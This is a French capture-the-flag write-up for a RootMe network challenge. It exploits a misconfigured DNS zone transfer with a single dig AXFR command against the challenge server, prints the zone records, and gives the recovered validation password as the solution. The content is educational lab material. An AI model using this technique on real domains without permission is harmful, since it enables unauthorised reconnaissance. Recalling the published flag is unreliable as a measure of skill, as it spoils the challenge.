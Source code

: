 # Challenge RootMe :DNS - Transfert de Zone

**Catégorie** : Réseau  
**Difficulté** : ⭐⭐
**Objectif** : Récupérer le mot de passe de validation en exploitant une mauvaise configuration de transfert de zone DNS.

---

## 📝 Étapes de résolution

### 1. Identification de la cible
- **Hôte** : `challenge01.root-me.org`
- **Port** : `54011`
- **Domaine** : `ch11.challenge01.root-me.org`
- **Protocole** : `DNS`

### 2. Exécution de la commande de transfert de zone
Utilisation de l'outil `dig` pour lancer une requête de transfert de zone :
```bash
dig @challenge01.root-me.org -p 54011 AXFR ch11.challenge01.root-me.org.
```

### 3. Analyse de la réponse DNS

La réponse obtenue présente plusieurs enregistrements DNS. Un extrait significatif de la réponse est le suivant :

```bash
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
```

### 4. Récupération du mot de passe

L'enregistrement TXT contient le mot de passe de validation :

```plaintext
DNS transfer secret key : CBkFRwfNMMtRjHY
```
Ce qui nous permet d'obtenir directement le flag.

**🛠 Outils utilisés**
- dig : Utilitaire DNS en ligne de commande
- Terminal UNIX/Linux : Pour exécuter la commande

**🏆 Solution finale**
Mot de passe :
```plaintext
CBkFRwfNMMtRjHY
```
